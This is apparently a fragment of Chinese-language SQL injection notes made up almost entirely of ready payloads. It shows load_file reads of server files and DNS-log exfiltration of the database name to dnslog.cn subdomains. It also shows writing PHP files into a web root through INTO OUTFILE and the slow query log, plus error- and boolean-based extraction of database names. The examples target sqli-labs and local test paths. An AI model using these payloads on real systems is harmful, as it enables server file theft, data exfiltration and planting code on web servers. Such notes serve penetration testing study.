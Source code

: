

##### 3）读文件

~~~
//黑盒
http://test.com/sqli/Less-1/?id=-1' union select 1,load_file('c:\\flag.txt'),3 --+
http://localhost/sqli-labs-master/Less-2/?id=-1 union select 1,2,load_file(concat('\\\\',(select database()),'.l4sq34.dnslog.cn\\abc'))--+
//白盒
select load_file('D:/phpStudy/phpstudy_pro/WWW/test.php');
select load_file(concat('\\\\',(select database()),'.c21hol.dnslog.cn\\abc'));
~~~



##### 4）导出

~~~
use mysql;
CREATE TABLE test( id text(500) not null);
INSERT INTO test (id) VALUES('<?php phpinfo();?>');
SELECT id FROM test INTO OUTFILE 'D:/phpStudy/phpstudy_pro/WWW/batman.php';
~~~



##### 5）慢日志写入

~~~
show variables like '%slow_query_log%';
set global slow_query_log=1;
set global slow_query_log_file='D:/phpStudy/phpstudy_pro/WWW/batman123.php';
show global variables like '%long_query_time%';
select '<?php phpinfo();?>' or sleep(11);
~~~



~~~
1'%20LIMIT%200,1%20load_file('C:/ProgramData/360/log/test.txt');

~~~









~~~
//报错
1' and 1=(db_name())--+
//布尔
and len(db_name())>5
and ascii (substring(db_name(),1,1))>95

1'and ascii (substring(db_name(),1,1))>95 --%20

1' and substring(db_name(2),1,1)='n'--+

~~~
